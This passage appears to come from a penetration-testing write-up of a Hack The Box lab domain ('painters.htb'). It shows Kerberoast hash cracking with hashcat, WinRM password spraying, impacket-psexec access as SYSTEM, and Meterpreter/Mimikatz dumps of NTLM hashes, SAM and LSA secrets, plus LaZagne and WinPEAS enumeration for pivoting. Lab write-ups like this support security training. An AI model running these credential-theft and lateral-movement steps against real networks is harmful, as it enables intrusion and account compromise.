880e190ef5380754b4b56f2907e5896fb6cf3a7b004d991ba80d35779b2cc9f704d91efdf573ca241853286cf4e295b7801cb6d790adce3437e6fd2419dbccc2b7ca9408f84c961d6f8c356dab8cddc2411a98a33ddf00e0d725ea35c4f21df5ee0c3ec408cf1e70333aeed3160351a04a36103f1e0c3bdb660f021bd50191659c2a5fae4248e8ae8f5de8f5fa5d17c6d13fe50769b3524bb0bb21103d6ea1cfde95c0:!QAZ1qaz
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*web_svc$PAINTERS.HTB$painters.htb/web_...de95c0
Time.Started.....: Fri Sep  8 16:15:13 2023 (0 secs)
Time.Estimated...: Fri Sep  8 16:15:13 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1371.1 kH/s (1.28ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 43008/14344385 (0.30%)
Rejected.........: 0/43008 (0.00%)
Restore.Point....: 36864/14344385 (0.26%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: holabebe -> harder

Started: Fri Sep  8 16:15:11 2023
Stopped: Fri Sep  8 16:15:15 2023
```

And seems like that svc account can PS remote over this machine:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/ZEPHYR]
└─# proxychains crackmapexec winrm 192.168.110.52 -u users.txt -p passwords.txt 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5986 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:445  ...  OK
SMB         192.168.110.52  5985   PNT-SVRSVC       [*] Windows 10.0 Build 20348 (name:PNT-SVRSVC) (domain:painters.htb)
HTTP        192.168.110.52  5985   PNT-SVRSVC       [*] http://192.168.110.52:5985/wsman
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
WINRM       192.168.110.52  5985   PNT-SVRSVC       [-] painters.htb\riley:P@ssw0rd
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
WINRM       192.168.110.52  5985   PNT-SVRSVC       [-] painters.htb\riley:!QAZ1qaz
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
WINRM       192.168.110.52  5985   PNT-SVRSVC       [-] painters.htb\blake:P@ssw0rd
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
WINRM       192.168.110.52  5985   PNT-SVRSVC       [-] painters.htb\blake:!QAZ1qaz
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
WINRM       192.168.110.52  5985   PNT-SVRSVC       [-] painters.htb\daniel:P@ssw0rd
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
WINRM       192.168.110.52  5985   PNT-SVRSVC       [-] painters.htb\daniel:!QAZ1qaz
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
WINRM       192.168.110.52  5985   PNT-SVRSVC       [-] painters.htb\matt:P@ssw0rd
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
WINRM       192.168.110.52  5985   PNT-SVRSVC       [-] painters.htb\matt:!QAZ1qaz
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
WINRM       192.168.110.52  5985   PNT-SVRSVC       [-] painters.htb\web_svc:P@ssw0rd
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
WINRM       192.168.110.52  5985   PNT-SVRSVC       [+] painters.htb\web_svc:!QAZ1qaz (Pwn3d!)
```

* * *

## PE:

Unfortunately Evil-WINRm have some issues to parse when a account have special simbols in the password so I ended up using PSEXEC from imapcket suite.

And loggin in I´m suprised that we are already NT-System:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/ZEPHYR]
└─# proxychains impacket-psexec web_svc@192.168.110.52
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.10.1.dev1+20230728.114623.fb147c3f - Copyright 2022 Fortra

Password:
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:445  ...  OK
[*] Requesting shares on 192.168.110.52.....
[*] Found writable share ADMIN$
[*] Uploading file CJTTbqpd.exe
[*] Opening SVCManager on 192.168.110.52.....
[*] Creating service cSau on 192.168.110.52.....
[*] Starting service cSau.....
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:445  ...  OK
[!] Press help for extra shell commands
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:445  ...  OK
Microsoft Windows [Version 10.0.20348.1726]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> hostname
PNT-SVRSVC

C:\Windows\system32> whoami 
nt authority\system

C:\Windows\system32>
```

And here can we see a flag under local Administrators home:

```
C:\Users\Administrator> dir Desktop
 Volume in drive C has no label.
 Volume Serial Number is 8C67-64E6

 Directory of C:\Users\Administrator\Desktop

17/10/2022  21:56    <DIR>          .
06/03/2022  19:01    <DIR>          ..
17/10/2022  21:56                36 flag.txt
               1 File(s)             36 bytes
               2 Dir(s)  31,206,404,096 bytes free

C:\Users\Administrator>
```

```
Directory of C:\Users\Administrator\Desktop

17/10/2022  21:56    <DIR>          .
06/03/2022  19:01    <DIR>          ..
17/10/2022  21:56                36 flag.txt
               1 File(s)             36 bytes
               2 Dir(s)  31,206,408,192 bytes free

C:\Users\Administrator\Desktop> type flag.txt
ZEPHYR{S3rV1c3_AcC0Un7_5PN_Tr0uBl35}
C:\Users\Administrator\Desktop>
```

Next I checked manually all the other usern homes but didn't found anything one so far. I also checked for other NICs and didn´t find traces of other NIC:

```
C:\Users\Public> ipconfig
 
Windows IP Configuration


Ethernet adapter Ethernet0:
   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::a437:af82:ffbd:b601%4
   IPv4 Address. . . . . . . . . . . : 192.168.110.52
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.110.1

C:\Users\Public>
```

I decided to upgrade the server connection to a Metasploit metepreter, I sideloaded Mimikatz and deciced to try to dump for credentials from memory:

```
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username     Domain              NTLM                              SHA1                                      DPAPI
--------     ------              ----                              ----                                      -----
PNT-SVRSVC$  PAINTERS            c206d294c947cecc0e60955004ff96c5  2158e35130afa92f5c502d976e7ca54458afa11d
mssql_svc    internal.zsm.local  31d6cfe0d16ae931b73c59d7e0c089c0  da39a3ee5e6b4b0d3255bfef95601890afd80709  4873fd33c73cf6276db89b23cceb3237
web_svc      PAINTERS            502472f625746727fa99566032383067  9a048817afda65e741f6702054e8297699b83fc6  5039c470ad6702cff3a549698380a0da

wdigest credentials
===================

Username     Domain              Password
--------     ------              --------
(null)       (null)              (null)
PNT-SVRSVC$  PAINTERS            (null)
mssql_svc    internal.zsm.local  (null)
web_svc      PAINTERS            (null)

kerberos credentials
====================

Username     Domain              Password
--------     ------              --------
(null)       (null)              (null)
PNT-SVRSVC$  painters.htb        9c 22 95 06 2d b3 96 52 dd 63 b2 14 34 4c e8 39 af 0a b4 87 e6 4e fc 62 92 35 56 fd 65 15 e2 4f 38 3f 0f 9a 34 00 6b ae 1f 10 84 46 48 3b 2e 8c 54 a2 d0 b
                                 d 08 38 8b 0e 47 dc 12 ad 75 a1 85 9c 45 c9 17 07 2b b6 83 47 7e 37 91 08 ff 31 31 bc b5 2a 4d 4a 20 46 c6 c6 f6 25 29 45 e4 b4 e3 c4 65 a3 3a 37 98 54 b4
                                  77 1e 7c ec 30 db 10 df 89 90 bb 08 67 c8 26 c5 0d 8d 06 46 d4 f8 17 d7 0b ec bf 98 05 8e 81 d6 a5 b0 f6 06 26 3e a3 c6 49 5f f5 53 be f5 5e e6 fe 10 9d
                                 03 e5 23 7a d0 06 1f 9e d7 f0 69 4d 5c 9b e2 a8 73 79 b8 24 91 87 1d f2 59 d2 51 ff 8a 11 4d 76 96 10 09 55 1f 53 a5 ab aa 1d 51 d7 aa 1d 06 d6 e7 30 a1 a
                                 1 47 97 d3 3f 71 c3 69 0e ea 3a 00 a0 97 11 f2 05 38 72 d9 dc 81 5e 3d e0 68 08 e6 b6 81 c7 37 cc 9e 33
mssql_svc    internal.zsm.local  (null)
pnt-svrsvc$  PAINTERS.HTB        (null)
web_svc      PAINTERS.HTB        (null)


meterpreter >
```

As you see here we found out a MSSQL service account on another domain **internal.zsm.local** this can be the secundary Domain maybe?

Again same NTML hashes:

```
meterpreter > creds_msv 
[+] Running as SYSTEM
[*] Retrieving msv credentials
msv credentials
===============

Username     Domain              NTLM                              SHA1                                      DPAPI
--------     ------              ----                              ----                                      -----
PNT-SVRSVC$  PAINTERS            c206d294c947cecc0e60955004ff96c5  2158e35130afa92f5c502d976e7ca54458afa11d
mssql_svc    internal.zsm.local  31d6cfe0d16ae931b73c59d7e0c089c0  da39a3ee5e6b4b0d3255bfef95601890afd80709  4873fd33c73cf6276db89b23cceb3237
web_svc      PAINTERS            502472f625746727fa99566032383067  9a048817afda65e741f6702054e8297699b83fc6  5039c470ad6702cff3a549698380a0da


meterpreter >
```

And by dumping the SAM hives we could find Administrators and James NTML hashes:

```
meterpreter > lsa_dump_sam 
[+] Running as SYSTEM
[*] Dumping SAM
Domain : PNT-SVRSVC
SysKey : b131ea5c8206a94e3d32119d035961a9
Local SID : S-1-5-21-1894836871-1209905952-3336604744

SAMKey : 21027b48a361fb0094c6eb79509e228d

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 6ee87fa6593a4798fe651f5f5a4e663e

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 9a3896a66cc19131b074f0463d56587c

* Primary:Kerberos-Newer-Keys *
    Default Salt : PNT-SVRSVC.PAINTERS.HTBAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : e2638a592bf8df16ae7a16d5f1e0ff945af694ea1cb0c96cc718f30371677dd7
      aes128_hmac       (4096) : 3e2a98999ef9cef8c1e41928257487c9
      des_cbc_md5       (4096) : fb64f42680042c52
    OldCredentials
      aes256_hmac       (4096) : 5c0ecc5dccd087cac3ec672f714c2119ab655a9f0b6b51bf75da22179dfee76a
      aes128_hmac       (4096) : d6477c485507bb6f1454cedc0af950f6
      des_cbc_md5       (4096) : ab7fe0ece5b67c5d
    OlderCredentials
      aes256_hmac       (4096) : cb7a55cfd2a867b40baa0f8148f327afce1b1b70e07a49ceecb33d3b379d42ce
      aes128_hmac       (4096) : da4f9d36f93e1c0af67f8af0805ff692
      des_cbc_md5       (4096) : e3fb1c49927a891c

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : PNT-SVRSVC.PAINTERS.HTBAdministrator
    Credentials
      des_cbc_md5       : fb64f42680042c52
    OldCredentials
      des_cbc_md5       : ab7fe0ece5b67c5d


RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount

RID  : 000003e9 (1001)
User : James
  Hash NTLM: 8af1903d3c80d3552a84b6ba296db2ea

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : e159b53fdb4574ab6bed0660156ffcc6

* Primary:Kerberos-Newer-Keys *
    Default Salt : SVC.PAINTERS.HTBJames
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : ab256c5e77a17fc0234eeada495d8ea573b2c3e90d9e5d24d2dba7d4e9792c23
      aes128_hmac       (4096) : 8d68c286c5716ed9213092b1281f24c5
      des_cbc_md5       (4096) : 1f54a21c86cbd6ef

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : SVC.PAINTERS.HTBJames
    Credentials
      des_cbc_md5       : 1f54a21c86cbd6ef
```

And lastly the DPAPI secrets are not unveiling any other usefull information or hidden cleartext password so far:

```
meterpreter > lsa_dump_secrets 
[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : PNT-SVRSVC
SysKey : b131ea5c8206a94e3d32119d035961a9

Local name : PNT-SVRSVC ( S-1-5-21-1894836871-1209905952-3336604744 )
Domain name : PAINTERS ( S-1-5-21-1470357062-2280927533-300823338 )
Domain FQDN : painters.htb

Policy subsystem is : 1.18
LSA Key(s) : 1, default {9b51e26b-bf59-b86f-9021-702cf33fb477}
  [00] {9b51e26b-bf59-b86f-9021-702cf33fb477} e48948a176032c8b76de70349096ff3b9dccbf5f33ed604807de577cc59fbe78

Secret  : $MACHINE.ACC
cur/hex : 9c 22 95 06 2d b3 96 52 dd 63 b2 14 34 4c e8 39 af 0a b4 87 e6 4e fc 62 92 35 56 fd 65 15 e2 4f 38 3f 0f 9a 34 00 6b ae 1f 10 84 46 48 3b 2e 8c 54 a2 d0 bd 08 38 8b 0e 47 dc 12 ad 75 a1 85 9c 45 c9 17 07 2b b6 83 47 7e 37 91 08 ff 31 31 bc b5 2a 4d 4a 20 46 c6 c6 f6 25 29 45 e4 b4 e3 c4 65 a3 3a 37 98 54 b4 77 1e 7c ec 30 db 10 df 89 90 bb 08 67 c8 26 c5 0d 8d 06 46 d4 f8 17 d7 0b ec bf 98 05 8e 81 d6 a5 b0 f6 06 26 3e a3 c6 49 5f f5 53 be f5 5e e6 fe 10 9d 03 e5 23 7a d0 06 1f 9e d7 f0 69 4d 5c 9b e2 a8 73 79 b8 24 91 87 1d f2 59 d2 51 ff 8a 11 4d 76 96 10 09 55 1f 53 a5 ab aa 1d 51 d7 aa 1d 06 d6 e7 30 a1 a1 47 97 d3 3f 71 c3 69 0e ea 3a 00 a0 97 11 f2 05 38 72 d9 dc 81 5e 3d e0 68 08 e6 b6 81 c7 37 cc 9e 33 
    NTLM:c206d294c947cecc0e60955004ff96c5
    SHA1:2158e35130afa92f5c502d976e7ca54458afa11d
old/hex : c6 18 92 c1 39 7c a7 1d ab e2 56 9b b8 91 db 61 41 80 fa 53 38 58 48 45 81 ae 0f fa 63 95 31 cc 68 76 48 4d 74 1b a3 27 44 80 10 26 28 aa 3d a1 cf 20 8d 77 4e f3 f5 eb ee 26 be f2 1e e1 e9 05 f9 4d 0e 48 02 a2 00 96 53 bb ba f9 28 ac c7 00 76 ec 01 85 3b ef 9c a2 9e ea 10 1d a9 41 32 6f e5 22 2e 3a fc 85 4d c8 33 35 82 b5 29 d5 68 d8 12 51 87 66 c6 34 47 32 86 5a 7a f1 d8 26 80 67 68 e6 c7 19 6d 26 09 6b fc bb 8d 64 43 b1 f8 45 d1 09 c8 fb 1a 64 41 aa 5b c3 aa 07 1b 38 f7 e9 aa a4 ef 47 ac 64 56 bf 98 74 91 66 3c 34 a9 23 37 84 b7 83 c6 34 84 5e 47 59 4b f8 7f f8 d9 27 b5 8d d1 11 fa 22 7f 93 12 8f 82 61 08 ec 29 74 8d 64 61 ce da 06 16 f8 a3 74 fc 48 0f 2b 47 2b d8 25 c5 b4 a0 b9 66 82 87 f2 f4 42 0a ba 89 08 
    NTLM:45bd137684cd4cfa856f3e6762a974f7
    SHA1:10e57be1dc895b6c966208418df703190dfd3aa5

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 6a 28 29 6d 27 6c e0 62 79 58 e9 9c fb ca b0 b5 4f f6 43 55 af 50 2a 32 58 e2 33 f2 9c e3 ca 24 25 7f 58 77 96 5b b8 7d 
    full: 6a28296d276ce0627958e99cfbcab0b54ff64355af502a3258e233f29ce3ca24257f5877965bb87d
    m/u : 6a28296d276ce0627958e99cfbcab0b54ff64355 / af502a3258e233f29ce3ca24257f5877965bb87d
old/hex : 01 00 00 00 fe cd 1b 46 01 f1 f1 be cf 33 b3 89 ff a2 ef f5 d8 bc 8c d3 61 30 d2 e5 0c 7b 21 53 92 30 41 24 22 ed eb 00 71 25 30 77 
    full: fecd1b4601f1f1becf33b389ffa2eff5d8bc8cd36130d2e50c7b21539230412422edeb0071253077
    m/u : fecd1b4601f1f1becf33b389ffa2eff5d8bc8cd3 / 6130d2e50c7b21539230412422edeb0071253077

Secret  : NL$KM
cur/hex : 48 6d d8 24 3e d2 25 7b 96 58 d1 98 1b 7a e3 57 79 5b c9 17 d2 e7 e7 1a f9 48 b4 9f d8 6d 1e a8 f8 9b 47 1c b9 e3 b2 e1 ce fc 2c 92 48 01 39 25 a3 aa d4 45 a3 f4 a5 a8 4b 9b de 1f 86 a7 5b b7 
old/hex : 48 6d d8 24 3e d2 25 7b 96 58 d1 98 1b 7a e3 57 79 5b c9 17 d2 e7 e7 1a f9 48 b4 9f d8 6d 1e a8 f8 9b 47 1c b9 e3 b2 e1 ce fc 2c 92 48 01 39 25 a3 aa d4 45 a3 f4 a5 a8 4b 9b de 1f 86 a7 5b b7
```

Anyway going back to the internal Domain we can see that this machine can speak to it:

```
C:\Temp>ping internal.zsm.local
ping internal.zsm.local

Pinging internal.zsm.local [192.168.210.16] with 32 bytes of data:
Reply from 192.168.210.16: bytes=32 time<1ms TTL=127
Reply from 192.168.210.16: bytes=32 time<1ms TTL=127
Reply from 192.168.210.16: bytes=32 time<1ms TTL=127
Reply from 192.168.210.16: bytes=32 time=2ms TTL=127

Ping statistics for 192.168.210.16:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 2ms, Average = 0ms

C:\Temp>
```

Running Lazagne is not showing that much new:

```
C:\Temp>lazagne.exe all
lazagne.exe all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

[+] System masterkey decrypted for 347445bd-6225-41d4-b379-fc9560e720bc
[+] System masterkey decrypted for 454567e5-578e-4ac0-b8d4-3c6d0be19ba9
[+] System masterkey decrypted for 89b6498b-1d90-43b8-b843-b4ae7b9f7b9a
[+] System masterkey decrypted for e87746b0-06b6-4325-87a1-4d5292961133

########## User: SYSTEM ##########

------------------- Hashdump passwords -----------------

Administrator:500:aad3b435b51404eeaad3b435b51404ee:6ee87fa6593a4798fe651f5f5a4e663e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
James:1001:aad3b435b51404eeaad3b435b51404ee:8af1903d3c80d3552a84b6ba296db2ea:::

------------------- Pypykatz passwords -----------------

[+] Shahash found !!!
Shahash: 9a048817afda65e741f6702054e8297699b83fc6
Nthash: 502472f625746727fa99566032383067
Login: web_svc

[+] Shahash found !!!
Shahash: 2158e35130afa92f5c502d976e7ca54458afa11d
Nthash: c206d294c947cecc0e60955004ff96c5
Login: PNT-SVRSVC$

[+] Shahash found !!!
Shahash: da39a3ee5e6b4b0d3255bfef95601890afd80709
Nthash: 31d6cfe0d16ae931b73c59d7e0c089c0
Login: mssql_svc

------------------- Lsa_secrets passwords -----------------

$MACHINE.ACC
0000   F0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   9C 22 95 06 2D B3 96 52 DD 63 B2 14 34 4C E8 39    ."..-..R.c..4L.9
0020   AF 0A B4 87 E6 4E FC 62 92 35 56 FD 65 15 E2 4F    .....N.b.5V.e..O
0030   38 3F 0F 9A 34 00 6B AE 1F 10 84 46 48 3B 2E 8C    8?..4.k....FH;..
0040   54 A2 D0 BD 08 38 8B 0E 47 DC 12 AD 75 A1 85 9C    T....8..G...u...
0050   45 C9 17 07 2B B6 83 47 7E 37 91 08 FF 31 31 BC    E...+..G~7...11.
0060   B5 2A 4D 4A 20 46 C6 C6 F6 25 29 45 E4 B4 E3 C4    .*MJ F...%)E....
0070   65 A3 3A 37 98 54 B4 77 1E 7C EC 30 DB 10 DF 89    e.:7.T.w.|.0....
0080   90 BB 08 67 C8 26 C5 0D 8D 06 46 D4 F8 17 D7 0B    ...g.&....F.....
0090   EC BF 98 05 8E 81 D6 A5 B0 F6 06 26 3E A3 C6 49    ...........&>..I
00A0   5F F5 53 BE F5 5E E6 FE 10 9D 03 E5 23 7A D0 06    _.S..^......#z..
00B0   1F 9E D7 F0 69 4D 5C 9B E2 A8 73 79 B8 24 91 87    ....iM....sy.$..
00C0   1D F2 59 D2 51 FF 8A 11 4D 76 96 10 09 55 1F 53    ..Y.Q...Mv...U.S
00D0   A5 AB AA 1D 51 D7 AA 1D 06 D6 E7 30 A1 A1 47 97    ....Q......0..G.
00E0   D3 3F 71 C3 69 0E EA 3A 00 A0 97 11 F2 05 38 72    .?q.i..:......8r
00F0   D9 DC 81 5E 3D E0 68 08 E6 B6 81 C7 37 CC 9E 33    ...^=.h.....7..3
0100   74 1E 90 A1 C8 30 D8 42 4C 5A 50 01 19 A2 74 87    t....0.BLZP...t.

DPAPI_SYSTEM
0000   01 00 00 00 6A 28 29 6D 27 6C E0 62 79 58 E9 9C    ....j()m'l.byX..
0010   FB CA B0 B5 4F F6 43 55 AF 50 2A 32 58 E2 33 F2    ....O.CU.P*2X.3.
0020   9C E3 CA 24 25 7F 58 77 96 5B B8 7D                ...$%.Xw.[.}

NL$KM
0000   40 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    @...............
0010   48 6D D8 24 3E D2 25 7B 96 58 D1 98 1B 7A E3 57    Hm.$>.%{.X...z.W
0020   79 5B C9 17 D2 E7 E7 1A F9 48 B4 9F D8 6D 1E A8    y[.......H...m..
0030   F8 9B 47 1C B9 E3 B2 E1 CE FC 2C 92 48 01 39 25    ..G.......,.H.9%
0040   A3 AA D4 45 A3 F4 A5 A8 4B 9B DE 1F 86 A7 5B B7    ...E....K.....[.
0050   15 C0 6C BF E8 80 5E 99 68 12 97 59 34 96 57 B3    ..l...^.h..Y4.W.


[+] 3 passwords have been found.
For more information launch it again with the -v option

elapsed time = 7.687540531158447

C:\Temp>
```

And lastly what we can find from WInpeas:

```
[*] BASIC SYSTEM INFO                                                                                                                                                                        
 [+] WINDOWS OS                                                                                                                                                                              
   [i] Check for vulnerabilities for the OS version with the applied patches                                                                                                                 
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#kernel-exploits                                                                                      
                                                                                                                                                                                             
Host Name:                 PNT-SVRSVC                                                                                                                                                        
OS Name:                   Microsoft Windows Server 2022 Standard                                                                                                                            
OS Version:                10.0.20348 N/A Build 20348                                                                                                                                        
OS Manufacturer:           Microsoft Corporation                                                                                                                                             
OS Configuration:          Member Server                                                                                                                                                     
OS Build Type:             Multiprocessor Free                                                                                                                                               
Registered Owner:          Windows User                                                                                                                                                      
Registered Organization:                                                                                                                                                                     
Product ID:                00453-60000-00000-AA756                                                                                                                                           
Original Install Date:     06/03/2022, 17:50:50                                                                                                                                              
System Boot Time:          08/09/2023, 05:29:27                                                                                                                                              
System Manufacturer:       VMware, Inc.                                                                                                                                                      
System Model:              VMware7,1                                                                                                                                                         
System Type:               x64-based PC                                                                                                                                                      
Processor(s):              1 Processor(s) Installed.                                                                                                                                         
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz                                                                                                  
BIOS Version:              VMware, Inc. VMW71.00V.16707776.B64.2008070230, 07/08/2020                                                                                                        
Windows Directory:         C:\Windows                                                                                                                                                        
System Directory:          C:\Windows\system32                                                                                                                                               
Boot Device:               \Device\HarddiskVolume1                                                                                                                                           
System Locale:             en-us;English (United States)                                                                                                                                     
Input Locale:              en-gb;English (United Kingdom)                                                                                                                                    
Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London                                                                                                                     
Total Physical Memory:     2,047 MB                                                                                                                                                          
Available Physical Memory: 767 MB                                                                                                                                                            
Virtual Memory: Max Size:  2,431 MB                                                                                                                                                          
Virtual Memory: Available: 1,251 MB                                                                                                                                                          
Virtual Memory: In Use:    1,180 MB                                                                                                                                                          
Page File Location(s):     C:\pagefile.sys                                                                                                                                                   
Domain:                    painters.htb                                                                                                                                                      
Logon Server:              N/A                                                                                                                                                               
Hotfix(s):                 4 Hotfix(s) Installed.                                                                                                                                            
                           [01]: KB5022507                                                                                                                                                   
                           [02]: KB5012170                                                                                                                                                   
                           [03]: KB5026370                                                                                                                                                   
                           [04]: KB5026493                                                                                                                                                   
Network Card(s):           1 NIC(s) Installed.                                                                                                                                               
                           [01]: vmxnet3 Ethernet Adapter                                                                                                                                    
                                 Connection Name: Ethernet0                                                                                                                                  
                                 DHCP Enabled:    No                                                                                                                                         
                                 IP address(es)                                                                                                                                              
                                 [01]: 192.168.110.52                                                                                                                                        
                                 [02]: fe80::a437:af82:ffbd:b601                                                                                                                             
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.                                                                              
                                                                                                                                                                                             
Caption                                     Description      HotFixID   InstalledOn                                                                                                          
http://support.microsoft.com/?kbid=5022507  Update           KB5022507  2/15/2023                                                                                                            
https://support.microsoft.com/help/5012170  Security Update  KB5012170  8/10/2022                                                                                                            
https://support.microsoft.com/help/5026370  Security Update  KB5026370  5/19/2023                                                                                                            
                                            Update           KB5026493  5/19/2023 [+] ARP                                                                                                                                                                                     
                                                                                                                                                                                             
Interface: 192.168.110.52 --- 0x4                                                                                                                                                            
  Internet Address      Physical Address      Type                                                                                                                                           
  192.168.110.1         00-50-56-b9-35-3f     dynamic                                                                                                                                        
  192.168.110.51        00-50-56-b9-80-cf     dynamic                                                                                                                                        
  192.168.110.53        00-50-56-b9-6d-6c     dynamic                                                                                                                                        
  192.168.110.54        00-50-56-b9-21-05     dynamic                                                                                                                                        
  192.168.110.55        00-50-56-b9-e3-7f     dynamic                                                                                                                                        
  192.168.110.56        00-50-56-b9-ab-ee     dynamic                                                                                                                                        
  192.168.110.255       ff-ff-ff-ff-ff-ff     static                                                                                                                                         
  224.0.0.22            01-00-5e-00-00-16     static                                                                                                                                         
  224.0.0.251           01-00-5e-00-00-fb     static                                                                                                                                         
  224.0.0.252           01-00-5e-00-00-fc     static
  
   [+] DNS CACHE                                                                                                                                                                               
    Record Name . . . . . : _ldap._tcp.Default-First-Site-Name._sites.dc._msdcs.painters.htb                                                                                                 
    Record Name . . . . . : dc.painters.htb                                                                                                                                                  
    A (Host) Record . . . : 192.168.110.55                                                                                                                                                   
    Record Name . . . . . : DC.painters.htb                                                                                                                                                  
    A (Host) Record . . . : 192.168.110.55                                                                                                                                                   
    Record Name . . . . . : internal.zsm.local                                                                                                                                               
    A (Host) Record . . . : 192.168.210.16     
    
    
     [+] USERS                                                                                                                                                                                   
                                                                                                                                                                                             
User accounts for \\                                                                                                                                                                         
                                                                                                                                                                                             
-------------------------------------------------------------------------------                                                                                                              
Administrator            DefaultAccount           Guest                                                                                                                                      
James                    WDAGUtilityAccount                                                                                                                                                  
The command completed with one or more errors.                                                                                                                                               
                                                             
                                                             
                                                             
                                                              [+] ADMINISTRATORS GROUPS                                                                                                                                                                   
Alias name     Administrators                                                                                                                                                                
Comment        Administrators have complete and unrestricted access to the computer/domain                                                                                                   
                                                                                                                                                                                             
Members                                                                                                                                                                                      
                                                                                                                                                                                             
-------------------------------------------------------------------------------                                                                                                              
Administrator                                                                                                                                                                                
James                                                                                                                                                                                        
PAINTERS\Domain Admins                                                                                                                                                                       
PAINTERS\web_svc                                                                                                                                                                             
The command completed successfully.
```

From here we couldn't get that much more exept that James was part of the local Administrators on this machine. We could appure from DNS cache that secunday DC is the **192.168.210.16** and that most likely there is another available host from laying on the **192.168.110.56** from the ARP table.  
If we test the NTLM hash from James account we can see it's expired which doesn't help that much:



Where Administrator is disabled instead:



I guess we can stop here for now, and come back as soon we want to move to the interal network.

* * *

## Extra Host:

We found out from ARP table that this machine was able to reach another device on 192.168.110.56:

```
C:\Temp> ping 192.168.110.56
 
